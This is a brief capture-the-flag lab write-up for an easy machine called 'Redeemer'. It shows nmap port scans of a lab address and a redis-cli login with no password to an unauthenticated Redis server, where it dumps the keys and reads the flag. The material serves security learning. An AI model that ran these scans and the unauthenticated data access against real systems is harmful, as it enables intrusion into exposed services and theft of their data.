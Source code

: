 # Box 
Name: Redeemer
ID:4
Difficulty: Easy

## 🧠 Attacker Environment
- **Host OS**: Parrot Security OS (VM)

## 🛠️ Tools Used
  - `ping`
  - `nmap`
  - `redis-cli`
  
## 🧠 Recon
Nmap Scan:
```bash
nmap -p- -sV 10.129.121.168 
nmap -p- -T4 10.129.121.168 (this one worked because I made the timing more aggressive)
```
## 🔍 Enumeration
Found an open port **6379/tcp**, running **redis** service.

## 💥 Exploitation
1. Installed redis-cli
2 Connected using `redis-cli` (no authentication needed):
  ```bash
  redis-cli -h 10.129.121.168
```
3. Ran basic commands:
info – server details
keys * – list all keys
get flag 

## 🔐 Privilege Escalation
Not required -redis ran as root

## 🧼 Cleanup & Lessons
-redis-cli session ended cleanly.
**Key takeaways**: 
- Always check if a service runs as root, no authentication required.
- Misconfigs are an easy win.